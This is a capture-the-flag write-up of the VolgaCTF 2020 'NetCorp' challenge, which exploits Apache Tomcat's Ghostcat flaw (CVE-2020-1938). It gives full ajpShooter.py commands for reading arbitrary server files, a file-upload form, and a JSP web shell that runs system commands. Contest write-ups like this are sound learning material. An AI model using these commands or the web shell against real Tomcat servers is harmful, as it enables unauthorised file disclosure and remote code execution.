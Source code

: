```yaml
---
title: VolgaCTF 2020 Qualifier - NetCorp
authors: _MrB0b
layout: writeup
ctf_url: https://q.2020.volgactf.ru
---
```

Solves: 134 / Points: 100 / Category: Web

## Challenge description
> Another telecom provider. Hope these guys prepared well enough for the network load...
> 
> [netcorp.q.2020.volgactf.ru](http://netcorp.q.2020.volgactf.ru:7782)

## Challenge resolution
### Recon
Browsing the web application did not reveal any clear entry point:

![NetCorp website](/assets/volga-quals-20-website.png)

In order to obtain more information on the target, we thus performed a web directory scan using [Gobuster](https://github.com/OJ/gobuster):

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://netcorp.q.2020.volgactf.ru:7782
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/03/28 12:06:42 Starting gobuster
===============================================================
http://netcorp.q.2020.volgactf.ru:7782/docs (Status: 302)
http://netcorp.q.2020.volgactf.ru:7782/examples (Status: 302)
http://netcorp.q.2020.volgactf.ru:7782/index.html (Status: 200)
http://netcorp.q.2020.volgactf.ru:7782/resources (Status: 302)
http://netcorp.q.2020.volgactf.ru:7782/uploads (Status: 302)
===============================================================
2020/03/28 12:07:06 Finished
===============================================================
```

Sweet! The **docs** folder revealed an installation of Apache Tomcat and the related version: 

![Tomcat](/assets/volga-quals-20-tomcat.png)

As outlined on the [tomcat.apache.org](http://tomcat.apache.org/security-9.html) website, the version **9.0.24** is vulnerable to CVE-2020-1938, a potential Remote Code Execution also known as [GhostCat](https://www.chaitin.cn/en/ghostcat):

![Advisory](/assets/volga-quals-20-tomcat-vuln.png)

However, to exploit this vulnerability, the AJP connector, usually listening on port 8009, must be reached. Using `netcat`, we can confirm that the TCP port 8009 is indeed open:

```bash
$ nc -v netcorp.q.2020.volgactf.ru 8009
DNS fwd/rev mismatch: netcorp.q.2020.volgactf.ru != bahilovopt.ru
netcorp.q.2020.volgactf.ru [77.244.215.184] 8009 (?) open
```

### Exploitation
The exploitation was performed using the `ajpShooter.py` python script from @00theway [GitHub repo](https://github.com/00theway/Ghostcat-CNVD-2020-10487).

To check that the server is indeed vulnerable, we first attempted to download the `WEB-INF/web.xml` configuration file using the following command line:

```bash
$ python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782/ 8009 /WEB-INF/web.xml read
```

![WEB-INF](/assets/volga-quals-20-web-inf.png)

As shown above, we can effectively read arbitrary file on the server. <(^_^)>

We then downloaded the java class of the `ServeScreenshot` Servlet:

```bash
$ python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782/ 8009 /WEB-INF/classes/ru/volgactf/netcorp/ServeScreenshotServlet.class read
```

![ServeScreenshot](/assets/volga-quals-20-ServeScreenshotServlet.png)

Using the `-o` parameter, we can save the class file to an output file, and use `Jadx`, a Dex to Java decompiler, to get the associated Java source code:

![Jadx](/assets/volga-quals-20-jadx.png)

From the source code, we've learned that uploaded files are saved in the `uploads` folder using the md5 hash of the filename:

```java
private String generateFileName(String fileName) {
    try {
        MessageDigest md = MessageDigest.getInstance("MD5");
        md.update(fileName.getBytes());
        String s2 = new BigInteger(1, md.digest()).toString(16);
        StringBuilder sb = new StringBuilder(32);
        int count = 32 - s2.length();
        for (int i = 0; i < count; i++) {
            sb.append("0");
        }
        return sb.append(s2).toString();
    } catch (NoSuchAlgorithmException e) {
        e.printStackTrace();
        return "Error";
    }
}
```

Using the following HTML code snippet, we can upload file to the server:

```html
<form method="post" action="http://netcorp.q.2020.volgactf.ru:7782/ServeScreenshot"
    enctype="multipart/form-data">
    Select file to upload: <input type="file" name="file" /><br />
    <br /> <input type="submit" value="Upload" />
</form>
```
For instance, we uploaded a file name `testpoc.txt` and calculated the md5 filename hash:
```bash
$ echo -n "testpoc.txt" | md5sum
beb2db6edf7b269ddfe4a4cfb54e09d9  -
```

This file can then be accessed at the intended URI:

![Upload](/assets/volga-quals-20-uploaded-file-view.png)

Content of the file can also be retrieved using the aforementioned `ajpShooter.py` python script:

```bash
$ python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782/ 8009 /uploads/beb2db6edf7b269ddfe4a4cfb54e09d9 read
```
![Read](/assets/volga-quals-20-uploaded-file.png)

Next, as stated on the advisory, remote code execution can be achieved by processing JSP script such as the following:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<HTML>
<BODY>
<PRE>
<%
String cmd = "id";
out.println("Command: " + cmd + "<BR>");
Process p =Runtime.getRuntime().exec(cmd);
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
}

%>
</PRE>
</BODY>
</HTML>
```

The process can then be repeated:
```bash
$ echo -n "cmd.jsp" | md5sum
2079f2ab870589bf5c5ddc9ac5030097  -
```

However, execution is achieved by using the `eval` parameter:
```bash
$ python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782/ 8009 /uploads/2079f2ab870589bf5c5ddc9ac5030097 eval
```

![Eval id](/assets/volga-quals-20-eval-id.png)

### Flag recovery
We then executed the `ls` command and spotted the `flag.txt` file:

![Eval ls](/assets/volga-quals-20-eval-ls.png)

The `cmd.jsp` script can be modified one last time using `Burp` in order to retrieved the flag:

![Burp](/assets/volga-quals-20-eval-flag.png)

![Flag](/assets/volga-quals-20-flag.png)
